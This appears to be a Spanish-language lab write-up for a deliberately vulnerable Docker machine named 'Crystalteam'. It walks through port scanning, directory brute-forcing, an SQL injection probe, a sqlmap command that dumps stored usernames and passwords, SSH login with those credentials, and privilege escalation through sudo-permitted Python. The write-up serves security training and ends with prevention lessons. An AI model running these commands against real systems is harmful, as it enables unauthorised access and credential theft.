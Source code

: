 # 🖥️ **Máquina: Crystalteam**  

🔹 **Dificultad:** Medio

📌 **Descripción:**  
Crystalteam es una máquina vulnerable basada en Docker, diseñada para poner a prueba habilidades en la explotación de bases de datos mediante **inyecciones SQL (SQLi)**. Su enfoque principal es la identificación y explotación de vulnerabilidades en consultas MySQL para obtener acceso no autorizado a la base de datos y extraer información sensible.  

📢 **Agradecimientos:** Gracias a [DockerLabs](https://dockerlabs.es) por proporcionar *scripts* y bases que facilitaron la creación de esta máquina.  

---

## 🎯 **Objetivo**  
- Identificar y explotar fallos de seguridad en la página web **Certificación** mediante **inyección SQL**.  
- Comprender el impacto real de estas vulnerabilidades y cómo prevenirlas.  

---

## 🚀 **Despliegue de la Máquina**  

### 1️⃣ **Descargar el Archivo**  
Descarga el archivo desde el siguiente enlace:  

🔗 [Crystalteam Docker Machine](https://drive.google.com/drive/folders/1rmXS7t-rqtLrRHcFd15-Sv8ujptn4fpT?usp=sharing)  

### 2️⃣ **Ejecutar el Despliegue Automático**  
Ejecuta el siguiente comando para desplegar la máquina en Docker:  

```bash
bash auto_deploy.sh crystalteam.tar
```
Una vez iniciada, comprueba la conexión con:  

```bash
ping -c4 172.17.0.2
```

![Máquina Backend](/Img/Docker.jpeg)

### 3️⃣ **Reconocimiento Inicial con Nmap**  
Realizamos un escaneo de puertos con:  

```bash
nmap -p- --open -sS --min-rate 500 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Extraemos los puertos abiertos con:  

```bash
extracPorts allPorts.txt
```

Luego, realizamos un análisis detallado de los servicios en ejecución:  

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN target
```

📌 **Resultado:** Identificamos el puerto **22 (SSH)** y el **80 (HTTP)**, lo que nos sugiere que hay un sitio web corriendo.  

![Máquina Backend](/Img/Puertos.jpeg)

---

## 🔍 **Enumeración del Sitio Web**  

Editamos el archivo de *hosts* para facilitar el acceso:  

```bash
nano /etc/hosts
```

Recopilamos información con **WhatWeb** para detectar tecnologías usadas:  

```bash
whatweb 172.17.0.2
```

![Máquina Backend](/Img/whatweb.jpeg)

Al ingresar a la página web, encontramos un **formulario de inicio de sesión y registro**.  

![Máquina Backend](/Img/index.jpeg)  

![Máquina Backend](/Img/ad.jpeg)  

Para descubrir directorios ocultos, utilizamos **Gobuster**:  

```bash
gobuster dir -u http://172.17.0.2/Certificacion -w /usr/share/seclists/Discovery/web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt
```

Para buscar subdominios:  

```bash
gobuster vhost -u http://172.17.0.2/Certificacion -w /usr/share/seclists/Discovery/web-Content/directory-list-2.3-medium.txt -t 20 | grep -v "402"
```

📌 **Resultado:** No se encontraron subdominios o directorios relevantes.  

![Máquina Backend](/Img/domi.jpeg)  

![Máquina Backend](/Img/php.jpeg)  

---

## 🔥 **Explotación - Inyección SQL**  

Probamos inyección SQL en el campo de usuario con:  

```sql
admin'
```

📌 **Resultado:** Se genera un **error de base de datos**, confirmando la vulnerabilidad.  

![Máquina Backend](/Img/in.jpeg)  

![Máquina Backend](/Img/error.jpeg)  

Usamos **Burp Suite** para interceptar la solicitud y guardarla en un archivo `.req`.  

Ejecutamos **SQLMap** para extraer datos sensibles:  

```bash
sqlmap -r peticione.req --level=5 --risk=3 --dump
```

![Máquina Backend](/Img/sql.jpeg)  

📌 **Resultado:** Encontramos una base de datos llamada **inicio**, con nombres de usuario y contraseñas.  

![Máquina Backend](/Img/Tabla.jpeg)  

Usamos las credenciales para intentar acceder por **SSH**:  

```bash
ssh alejandro@172.17.0.2 -p 22
```

📌 **Acceso concedido como usuario "alejandro".**  

![Máquina Backend](/Img/ssh.jpeg)  

---

## 🚀 **Escalada de Privilegios**  

Listamos permisos con:  

```bash
sudo -l | grep python
```

📌 **Resultado:** Python puede ejecutar comandos como **root**.  

Ejecutamos el siguiente comando para leer el archivo `redflag.txt`:  

```bash
sudo python3 -c "print(open('redflag.txt').read())"
```

![Máquina Backend](/Img/root.jpeg)  

📌 **Resultado:** ¡Hemos obtenido la *redflag*! 🎉  

Para verificar acceso como *root*, ejecutamos:  

```bash
su -
```

![Máquina Backend](/Img/ter.jpeg)  

📌 **Resultado:** **Acceso total a la máquina.**  

---

## 🏆 **Conclusión**  

🔹 **Vulnerabilidades explotadas:**  
✅ Inyección SQL (SQLi) para obtener credenciales.  
✅ Uso de credenciales expuestas para acceder por SSH.  
✅ Escalada de privilegios mediante Python.  

🔹 **Lecciones aprendidas:**  
🚨 **No** concatenar consultas SQL sin sanitizar entradas.  
🔐 Implementar **hashing de contraseñas** en la base de datos.  
📛 Restringir permisos innecesarios a usuarios del sistema.  

💡 **¿Te gustaría probar esta máquina?** Descárgala y cuéntame tu experiencia. 🚀  

